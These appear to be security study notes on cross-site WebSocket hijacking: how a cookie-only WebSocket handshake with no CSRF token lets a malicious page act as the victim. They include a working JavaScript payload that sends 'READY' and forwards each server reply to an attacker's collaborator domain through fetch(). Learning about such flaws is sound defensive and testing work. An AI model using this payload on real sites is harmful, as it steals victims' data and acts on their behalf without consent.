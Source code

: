 ## XS WS Hijacking
What is it?
* CSRF vuln in WS handshake
* when WS handshake reliant on HTTP cookies for session handling (no CSRF tokens)
* Create malicious web page and establish WS connection
* Send messages to server via the connection
	* Unlike CSRF, there are two-way interaction with compromised app.

Impact
* Perform unauthorised actions pretending to be the victim user.
* Retrieve sensitive data

Performing an attack
* review handshakes app carries out. 
   	* Work out if they are protected against CSRF
   	* do they only do session management through cookies
* Sec-WebSocket-Key is NOT used for session handling.
* What to do once you've made a connection
   	* Send messages to perform actions on anothers behalf
   	* Send messages to get sensitive data
   	* Wait until incoming messages containing that data.

Sample attack
* Click around and check for WS interactions and if there are no CSRF tokens
   	* What responses are being sent back? Key Words? “Ready”?
* Find URL that makes initial WS handshake request
* Create your own exploit server:
<script>
    websocket = new WebSocket('wss://the-websocket-URL')
    websocket.onopen = start
    websocket.onmessage = handleReply
    function start(event) {
      websocket.send("READY");
    }
		function handleReply(event) {
		  fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
		}
</script>                        
* open burp collaborator
* poll for stuff

